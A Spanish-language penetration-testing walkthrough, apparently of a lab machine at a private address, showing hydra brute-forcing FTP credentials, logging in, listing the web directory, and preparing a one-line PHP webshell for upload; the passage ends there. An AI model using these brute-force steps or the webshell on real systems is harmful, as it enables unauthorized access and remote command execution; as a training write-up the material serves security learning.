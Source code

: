 ```bash
[!] Access denied on 192.168.100.43, no fun for you...                                                                   
[*] Closed 1 connections 
```
---
## Explotacion de Vulnerabilidades
### Vector de Ataque
Despues de termianr el ataque de fuerza bruta con hydra sobre ftp tenemos lo siguiente:
```bash
[STATUS] 69.67 tries/min, 209 tries in 00:03h, 14344190 to do in 3431:38h, 4 active
[21][ftp] host: 192.168.100.43   login: info   password: PolniyPizdec0211
```

Ahora nos conectamos por **ftp** con estas credenciales
```bash
ftp 192.168.100.43
```

Desactivamos el modo **passive** para poder acceder a nuestro **webshell**
```bash
ftp> passive
Passive mode: off; fallback to active mode: off.
```

Proporcionamos estas credenciales
```bash
220 Microsoft FTP Service
Name (192.168.100.43:kali): info
331 Password required for info.
Password: PolniyPizdec0211
```

Listamos los recurso
```bash
ftp> dir
227 Entering Passive Mode (192,168,100,43,192,7).
125 Data connection already open; Transfer starting.
dr--r--r--   1 owner    group               0 Jun 14  2024 aspnet_client
-rwxrwxrwx   1 owner    group           11069 Jun 15  2024 index.html
-rwxrwxrwx   1 owner    group          184946 Jun 14  2024 welcome.png
```

Si ingresamos a la siguiente ruta en **ftp**
```bash
ftp> pwd
Remote directory: /aspnet_client
```

El mensaje **`227 Entering Passive Mode (192,168,100,43,192,18)`** es una respuesta del servidor FTP (en este caso, Microsoft FTPd) que indica que está entrando en **modo pasivo (PASV)** para la transferencia de datos.
- **Shell upload**: Intentaremos subir archivos, probaremos  una webshell ( `.php` o `.aspx`).

Primero probaremos con un **webshell** con **php**
```php
<?php
  system($_GET["cmd"]);
?>
```
